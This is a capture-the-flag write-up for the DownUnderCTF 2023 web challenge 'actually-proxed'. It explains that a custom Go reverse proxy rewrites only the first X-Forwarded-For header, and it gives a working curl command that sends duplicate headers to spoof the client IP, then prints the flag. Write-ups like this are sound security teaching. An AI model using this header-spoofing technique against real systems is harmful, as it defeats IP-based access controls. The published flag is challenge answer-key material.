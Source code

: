 # DownUnderCTF 2023

## actually-proxed

> Still cool haxxorz only!!! Except this time I added in a reverse proxy for extra security. Nginx and the standard library proxy are waaaayyy too slow (amateurs). So I wrote my own :D
>
>  Author: Jordan Bertasso
>
> [`actually-proxed.tar.gz`](actually-proxed.tar.gz)

Tags: _web_

## Solution
This challenge is kind of a follow up challenge to [`proxed`](../proxed/README.md). But this time a real `proxy` process is implemented. 

```go
for i, v := range headers {
            if strings.ToLower(v[0]) == "x-forwarded-for" {
                    headers[i][1] = fmt.Sprintf("%s, %s", v[1], clientIP)
                    break
            }
    }

    headerMap := make(map[string][]string)
    for _, v := range headers {
            value := headerMap[v[0]]

            if value != nil {
                    value = append(value, v[1])
            } else {
                    value = []string{v[1]}
            }

            headerMap[v[0]] = value
    }

    request := &http.Request{
            Method:        method,
            URL:           &url.URL{Scheme: "http", Host: targetHost, Path: path},
            Proto:         version,
            ProtoMajor:    1,
            ProtoMinor:    1,
            Header:        headerMap,
            Body:          io.NopCloser(reader),
            ContentLength: int64(reader.Len()),
    }
```

The proxy will request the `x-forwarded-for` header value with the actual client ip, therefore we cannot use the same exploit as in the previous challenge. But the proxy code breaks after the first found occurrence of `x-forwarded-for` meaning, we can just pass multiple spoofed x-forwarded-for headers, the first will be replaced, but all others are kept intact. Since the last occurence is considered when calling `request.Header.Values("X-Forwarded-For")` we still can spoof the ip address.

```bash
$ curl http://actually.proxed.duc.tf:30009/ -H "X-Forwarded-For: 1337" -H "X-Forwarded-For: 31.33.33.7"
DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}
```

Flag `DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}`